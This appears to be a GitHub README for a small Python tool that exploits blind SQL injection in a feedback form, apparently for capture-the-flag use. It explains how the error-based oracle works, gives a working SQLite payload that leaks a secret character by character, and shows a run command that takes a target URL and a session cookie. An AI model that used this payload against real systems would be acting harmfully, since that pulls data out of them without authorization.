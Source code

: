 # Blind-SQLi-extractor
A small Python tool to exploit blind SQL injection in a feedback-style form that stores user input via an unsafe INSERT. It recovers a secret (e.g., a flag) one character at a time by using the page’s response as an oracle (success vs. error).\

# How it works

 - The target app builds something like:
 - INSERT INTO feedback(username, feedback) VALUES(?, '<USER_INPUT>')
 - We submit payloads that succeed only when our character guess is correct, and fail otherwise, e.g. (SQLite example):
 - '||(SELECT CASE
           WHEN substr(secret,POS,1)='C' THEN ''
           ELSE (SELECT 1/0) END
         FROM secret_table)||'
 - The script loops over positions (POS = 1..N) and a character set until it reconstructs the value.
# Requirements
 -  Python 3.8+
 -  pip install requests pwntools (pwntools is only for nice progress UI)

# Quick Start
python3 pwntools_feedback_extractor.py \
  --url https://TARGET/ \
  --cookie '<session_cookie_value>' \
  --insecure          # if the site uses a self-signed cert
  
# What to edit (config)
 - SUCCESS_MARKER:
   The substring that reliably appears only on a successful insert.

